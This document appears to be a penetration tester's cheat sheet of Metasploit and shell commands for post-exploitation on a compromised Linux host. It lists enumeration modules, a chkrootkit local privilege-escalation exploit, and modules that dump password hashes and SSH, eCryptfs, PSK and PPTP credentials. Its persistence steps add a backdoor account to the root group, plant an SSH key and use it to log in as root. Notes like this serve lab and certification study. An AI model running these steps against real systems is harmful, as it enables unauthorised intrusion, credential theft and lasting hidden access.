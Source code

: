 ```bash

lsblk -l #Check Drives

# msfconsole
use post/linux/gather/enum_configs
use post/multi/gather/env
use post/linux/gather/enum_network
use post/linux/gather/enum_protections
use post/linux/gather/enum_system
use post/linux/gather/checkcontainer
use post/linux/gather/checkvm
use post/linux/gather/enum_users_history
set SESSION 1

loot
```

```bash
# PRIVILEGE ESCALATION - chkrootkit
ps aux
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION 1
set LHOST <LOCAL_IP>
```

```bash
# Dumping Hashes
use post/linux/gather/hashdump
use post/multi/gather/ssh_creds
use post/linux/gather/ecryptfs_creds
use post/linux/gather/enum_psk
use post/linux/gather/pptpd_chap_secrets
set SESSION 1
```

```bash
# PERSISTENCE
# Meterpreter - Manual
shell

whoami
	root
cat /etc/passwd
useradd -m ftp -s /bin/bash
passwd ftp
usermod -aG root ftp
usermod -u 15 ftp
groups ftp

# SSH Key
use post/linux/manage/sshkey_persistence
set CREATESSHFOLDER true
set SESSION 1

# Persistence Test
loot
cat /root/.msf4/loot/DATE_Linux_Persistenc_<TARGET_IP>_id_rsa_.txt
# Exit all the msfconsole sessions and close it
exit -y

vim ssh_key # paste Key
chmod 0400 ssh_key
ssh -i ssh_key root@<TARGET_IP>
```
